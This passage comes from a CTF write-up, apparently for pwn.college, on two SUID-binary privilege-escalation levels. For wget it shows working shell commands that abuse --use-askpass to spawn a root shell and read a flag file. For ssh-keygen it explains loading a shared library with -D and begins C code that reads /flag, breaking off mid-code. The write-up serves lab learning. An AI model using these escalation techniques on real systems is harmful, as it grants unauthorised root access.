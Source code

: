 **Level 50** : `wget`

{{< button href="<https://gtfobins.github.io/gtfobins/wget/>" target="_blank" >}}
GTFOBins reference
{{< /button >}}

The technique here is to use the `--use-askpass` flag (definition in the `wget` manual below). This argument is used to execute a command to retrieve credentials to be used to make a request. It can therefore be used to obtain a root shell.

```
--use-askpass=command
        Prompt for a user and password using the specified command. If no command is specified then the command in the environment variable WGET_ASKPASS is used. If WGET_ASKPASS is not set then the command in the environment variable SSH_ASKPASS is used.

        You can set the default command for use-askpass in the .wgetrc.  That setting may be overridden from the command line.
```

```shell
$ tmp=$(mktemp)
$ chmod +x $tmp
$ echo -e '#!/bin/sh -p\n/bin/sh -p 1>&0' > $tmp
$ wget --use-askpass=$tmp 0
$> cat /flag
pwn.college{redacted}
```

---

**Shows how dangerous it is to allow users to load their own code as plugins into the program (but figuring out how is the hard part)!**

**Level 51** : `ssh-keygen`

{{< button href="<https://gtfobins.github.io/gtfobins/ssh-keygen/>" target="_blank" >}}
GTFOBins reference
{{< /button >}}

The binary can be used to load shared libraries and execute code in context (here in SUID root).

According to the `ssh-keygen` manual:

```
 -D pkcs11 Download the public keys provided by the PKCS#11 shared library pkcs11 . When used in combination with -s , this option indicates that a CA key resides in a PKCS#11 token (see the CERTIFICATES section for details).
```

**Première tentative**

Naively, I'm using a shared object with a main that reads and displays the characters contained in the `/flag` file.

```c
#include <stdio.h>

int main()
{
    FILE *fd;

    char filename[] = "/flag";
    char c = 0;

    fd = fopen(filename, "r");

    while ((c = fgetc(fd)) != EOF)
        printf ("%c", c);

    fclose(fd);
```